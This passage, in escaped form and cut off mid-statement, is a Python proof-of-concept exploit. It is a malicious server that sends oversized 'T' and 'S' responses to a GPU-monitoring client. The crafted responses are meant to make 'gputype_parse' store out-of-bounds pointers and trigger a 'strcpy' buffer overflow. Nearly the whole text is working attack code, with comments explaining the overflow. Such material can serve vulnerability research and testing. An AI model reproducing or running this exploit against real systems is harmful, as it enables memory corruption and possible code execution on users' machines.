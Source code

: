 responses.\n\n```python\nimport socket\nimport struct\n\nHOST = \'127.0.0.1\'\nPORT = 59123\n\ndef create_malicious_response(msg_type, data_length, data):\n    # Prelude: type (1 byte) + length (4 bytes, little-endian)\n    prelude = msg_type.encode(\'ascii\') + struct.pack(\'<I\', data_length)\n    return prelude + data.encode(\'ascii\')\n\ndef main():\n    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:\n        s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)\n        s.bind((HOST, PORT))\n        s.listen()\n        print(f\"Listening on {HOST}:{PORT}...\")\n\n        conn, addr = s.accept()\n        with conn:\n            print(f\"Connected by {addr}\")\n\n            # Receive initial request (should be \'T\')\n            data = conn.recv(5) # \'T\' + 4 bytes length\n            if not data or data[0] != ord(\'T\'):\n                print(\"Did not receive expected \'T\' request.\")\n                return\n\n            # Craft and send malicious \'T\' response\n            # This will cause gputype_parse to store out-of-bounds pointers\n            # The length here is for the *entire* data section, including null terminators and multiple entries\n            # Let\'s make the busid and type strings very long\n            long_string_busid = b\'A\' * 2000 # This will be copied into a small buffer later\n            long_string_type = b\'B\' * 2000\n            \n            num_gpus = 1\n            t_data = struct.pack(\'<I\', num_gpus) + long_string_busid + b\'\\0\' + long_string_type + b\'\\0\'\n            t_response = create_malicious_response(\'T\', len(t_data), t_data.decode(\'latin-1\')) # Use latin-1 for byte string to str conversion\n            conn.sendall(t_response)\n            print(f\"Sent malicious \'T\' response of length {len(t_response)}\")\n\n            # Receive next request (should be \'S\')\n            data = conn.recv(5) # \'S\' + 4 bytes length\n            if not data or data[0] != ord(\'S\'):\n                print(\"Did not receive expected \'S\' request.\")\n                return\n\n            # Craft and send malicious \'S\' response\n            # The \'S\' response itself doesn\'t directly cause the overflow,\n            # but its processing triggers the `strcpy` using the pointers\n            # set up by the \'T\' response.\n            # So, the \'S\' response can be minimal, but it needs to be valid enough\n            # to trigger the processing that leads to the `strcpy`.\n            \n            num_gpus = 1\n            s_data = struct.pack(\'<I\', num_gpus) + \\\n                     struct.pack(\'<I\', 0) + \\\n                     struct.pack(\'<I\', 10) + \\\n                     struct.pack(\'<I\', 20) + \\\
                     struct.pack(\'<Q\', 1024 * 1024 * 8) + \\\
                     struct.pack(\'<Q\', 1024 * 1024 * 4) + \\\
                     struct.pack(\'<I\', 50) + \\\
                     struct.pack(\'<I\', 100) + \\\
                     struct.pack(\'<I\', 1000) + \\\